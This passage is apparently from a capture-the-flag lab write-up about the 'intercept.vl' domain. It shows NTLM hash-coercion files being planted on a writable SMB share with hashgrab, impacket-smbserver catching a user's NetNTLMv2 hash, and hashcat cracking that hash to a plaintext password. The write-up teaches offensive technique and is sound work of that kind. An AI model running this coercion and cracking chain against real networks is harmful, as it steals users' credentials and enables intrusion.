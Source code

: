 ```
smb: \> exit

cat readme.txt
Please check this share regularly for updates to the application (this is a temporary solution until we switch to gitlab).
```

This suggests that someone is updating something on this share and also encourages to check back regulary. We also confirmed that we can write here. If we can write a domain share, it’s possible to place a scf/lnk or other hash-grabbing payload that will coerce NTLM Authentication back to our machine! We can not relay this anywhere since the only other machine is the domain controller which has SMB signing enforced, but we can try to crack the NetNLTMv2 hash should a user visit the share.

To create the payload we use [hashgrab ](https://github.com/xct/hashgrab)and then upload the generated files after starting impacket’s smbserver.

```
python3 ~/tools/hashgrab/hashgrab.py 10.8.0.36 xct

impacket-smbserver share share -smb2support

smbclient \\\\ws01.intercept.vl\\dev
Try "help" to get a list of possible commands.
smb: \> put @xct.url
smb: \> put @xct.scf
smb: \> put xct.library-ms
smb: \> put desktop.ini
```

After a moment, we get a connect back from a user that has been browsing to the share:

```
[*] Incoming connection (10.10.158.70,55925)
[*] AUTHENTICATE_MESSAGE (INTERCEPT\Kathryn.Spencer,WS01)
[*] User WS01\Kathryn.Spencer authenticated successfully
[*] Kathryn.Spencer::INTERCEPT:aaaaaaaaaaaaaaaa:862dbe919ed1214474158885d08319b6:01010000000000008030155530acd90131448fefcebcbcd100000000010010007800570064004a0049004c0068006c00030010007800570064004a0049004c0068006c00020010007900620072007100730052006c006500040010007900620072007100730052006c006500070008008030155530acd90106000400020000000800300030000000000000000000000000200000b7d3e5eb02a71b9cb39e4fadbc9a8603d5745af9db951ae1e87e2bcdc649ea580a0010000000000000000000000000000000000009001c0063006900660073002f00310030002e0038002e0030002e00330036000000000000000000
```

Let’s try to crack the hash. We copy the line with username & hash and store it in a file on disk. Then we run hashcat:

```
hashcat -m 5600 hash ~/tools/SecLists/Passwords/Leaked-Databases/rockyou-75.txt

KATHRYN.SPENCER::INTERCEPT:aaaaaaaaaaaaaaaa:862dbe919ed1214474158885d08319b6:01010000000000008030155530acd90131448fefcebcbcd100000000010010007800570064004a0049004c0068006c00030010007800570064004a0049004c0068006c00020010007900620072007100730052006c006500040010007900620072007100730052006c006500070008008030155530acd90106000400020000000800300030000000000000000000000000200000b7d3e5eb02a71b9cb39e4fadbc9a8603d5745af9db951ae1e87e2bcdc649ea580a0010000000000000000000000000000000000009001c0063006900660073002f00310030002e0038002e0030002e00330036000000000000000000:Chocolate1
```
